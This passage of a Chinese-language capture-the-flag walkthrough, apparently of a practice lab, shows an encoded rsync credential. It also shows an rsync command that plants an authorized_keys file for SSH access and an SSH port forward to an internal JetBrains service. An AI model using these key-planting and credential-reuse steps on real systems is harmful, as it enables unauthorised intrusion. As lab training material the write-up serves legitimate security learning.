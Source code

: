 对这段内容解密可以得到一个 Rsync 的密码 [CyberChef](https://gchq.github.io/CyberChef/#input=UVhWMGFHOXlhWHBoZEdsdmJpQm1iM0lnY25ONWJtTTZMeTl5YzNsdVl5MWpiMjV1WldOMFFERXlOeTR3TGpBdU1TQjNhWFJvSUhCaGMzTjNiM0prSUVoalp6TklVRFkzUUZSWFFFSmpOekoyQ2c9PQ)

## 873 - Rsync

![20240629222819](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240629222819.png)

根据得到的内容我知道这是一个 sys-internal 用户的家目录, 因此我将其拉取下来

![20240629222830](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240629222830.png)

我发现其中存在一个 .ssh 目录但是没有内容, 所以我尝试上传了authorized_keys 文件

```bash
root@ip-10-10-201-75:~/vulnnetinternal/rsync/sys-internal# rsync -av ./authorized_keys rsync://rsync-connect@10.10.54.130/files/sys-internal/.ssh/authorized_keys
Password: 
sending incremental file list
authorized_keys
rsync: chgrp "/sys-internal/.ssh/.authorized_keys.CEhfG4" (in files) failed: Operation not permitted (1)

sent 503 bytes  received 144 bytes  76.12 bytes/sec
total size is 402  speedup is 0.62
rsync error: some files/attrs were not transferred (see previous errors) (code 23) at main.c(1196) [sender=3.1.2]
```

再次枚举我发现上传成功, 所以利用 SSH 登陆即可

![20240629222844](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240629222844.png)

## 后渗透
### sys-internal

![20240629222859](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240629222859.png)

使用 SSH 进行登陆, 经过简单的枚举我发现在根目录下有一个文件夹

![20240629222910](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240629222910.png)

经过简单的查看以及谷歌后我发现这是一个 JetBrains 开发的程序并且我知道了它使用的端口为 8111

![20240629222922](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240629222922.png)

所以我进行了端口转发

```bash
root@ip-10-10-201-75:~/vulnnetinternal/conf# ssh -L 1234:127.0.0.1:8111 sys-internal@10.10.54.130
```

然后访问本地 1234 端口我发现需要密码
